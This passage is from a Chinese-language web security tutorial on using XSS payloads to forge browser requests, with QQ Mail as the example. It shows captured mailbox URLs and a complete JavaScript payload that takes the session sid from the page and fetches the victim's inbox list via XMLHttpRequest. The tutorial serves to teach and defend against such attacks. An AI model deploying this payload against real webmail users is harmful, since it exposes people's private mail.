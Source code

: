 ```
```

再次提交成功：
通过XMLHttpRequest发消息成功
通过这个例子可以清楚地看到，使用JavaScript模拟浏览器发包并不是一件困难的事情。
所以XSS攻击后，攻击者除了可以实施“Cookie劫持”外，还能够通过模拟GET、POST请求操作用户的浏览器。这在某些隔离环境中会非常有用，比如“Cookie劫持”失效时，或者目标用户的网络不能访问互联网等情况。

 2016-04-06

下面这个例子将演示如何通过XSS Payload读取QMail用户的邮件文件夹。
首先看看正常的请求是如何获取到所有的邮件列表的。登录邮箱后，可以看到：
QQ邮箱的界面
点击“收件箱”后，看到邮件列表。抓包发现浏览器发出了如下请求：

```
http://m57.mail.qq.com/cgi-bin/mail_list?sid=6alhx3p5yzh9a2om7U51dDyz&folderid=1&page
=0&s=inbox&loc=folderlist,,,1

```
QQ邮箱的邮件列表
经过分析发现，真正能访问到邮件列表的链接是：

```
http://m57.mail.qq.com/cgi-bin/mail_list?folderid=1&page=0&s=inbox&sid=6alhx3p5yzh9a2
om7U51dDyz

```

在Firebug中分析QQ邮箱的页面内容
这里有一个无法直接构造出的参数值：sid。从字面推测，这个sid参数应该是用户ID加密后的值。
所以，XSS Payload的思路是先获取到sid的值，然后构造完整的URL，并使用XMLHttpRequest请求此URL，应该就能得到邮件列表了。XSS Payload如下：

```
if (top.window.location.href.indexOf("sid=")>0){
  var sid = top.window.location.href.substr(top.window.location.href.indexOf("sid=")
+4,24);
}


var folder_url = "http://"+top.window.location.host+"/cgi-bin/mail_list?folderid=
1&page=0&s=inbox&sid="+sid;

var ajax = null;
if(window.XMLHttpRequest){
    ajax = new XMLHttpRequest();
   }
else if(window.ActiveXObject){
    ajax = new ActiveXObject("Microsoft.XMLHTTP");
   }
else{
    return;
   }

ajax.open("GET", folder_url, true);
ajax.send(null);

ajax.onreadystatechange = function(){
    if (ajax.readyState == 4 && ajax.status == 200){
           alert(ajax.responseText);
           //document.write(ajax.responseText)
        }
  }


```

